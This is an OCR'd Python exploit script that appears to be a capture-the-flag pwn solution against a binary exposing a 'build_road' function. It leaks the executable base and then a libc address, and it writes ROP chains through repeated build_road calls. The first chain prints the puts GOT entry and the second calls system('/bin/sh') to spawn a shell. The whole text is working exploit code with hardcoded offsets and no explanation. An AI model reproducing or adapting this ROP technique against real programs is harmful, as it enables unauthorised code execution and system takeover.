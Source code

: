 ```python
p.recvuntil(": ")
l = struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

short_path('pwner', list_names[50])
p.recvuntil(": ")
l +=  struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

l = int(l, 16)
exec_base = l - 0x96b
print "EXEC BASE LEAK"
print hex(exec_base)

pop_rdi = exec_base + 0x1273
pop_rsi_r15 = exec_base + 0x1271
just_ret = exec_base + 0x1274
main = exec_base + 0x11f1
puts_got = exec_base + 0x201f98
puts_plt = exec_base + 0x790


# WRITE TIME

build_road('pwner', list_names[6], str(pop_rdi & 0xffffffff))
build_road('pwner', list_names[7], str((pop_rdi>>32) & 0xffffffff))

build_road('pwner', list_names[8], str(puts_got & 0xffffffff))
build_road('pwner', list_names[9], str((puts_got>>32) & 0xffffffff))

build_road('pwner', list_names[10], str(puts_plt & 0xffffffff))
build_road('pwner', list_names[11], str((puts_plt>>32) & 0xffffffff))

build_road('pwner', list_names[12], str(main & 0xffffffff))
build_road('pwner', list_names[13], str((main>>32) & 0xffffffff))

end()

## LIBC LEAK
l = int(p.recvuntil('\x7f')[-6:][::-1].encode('hex'), 16)

libc_base = l - 0x81010
system_address = libc_base + 0x50300
bin_sh_address = libc_base + 0x1aae80

print hex(system_address)



build_road('pwner', list_names[6], str(pop_rdi & 0xffffffff))
build_road('pwner', list_names[7], str((pop_rdi>>32) & 0xffffffff))

build_road('pwner', list_names[8], str(bin_sh_address & 0xffffffff))
build_road('pwner', list_names[9], str((bin_sh_address>>32) & 0xffffffff))

build_road('pwner', list_names[10], str(pop_rsi_r15 & 0xffffffff))
build_road('pwner', list_names[11], str((pop_rsi_r15>>32) & 0xffffffff))

build_road('pwner', list_names[12], str(0))
build_road('pwner', list_names[13], str(0))
build_road('pwner', list_names[14], str(0))
build_road('pwner', list_names[15], str(0))

build_road('pwner', list_names[16], str(system_address & 0xffffffff))
build_road('pwner', list_names[17], str((system_address>>32) & 0xffffffff))
```
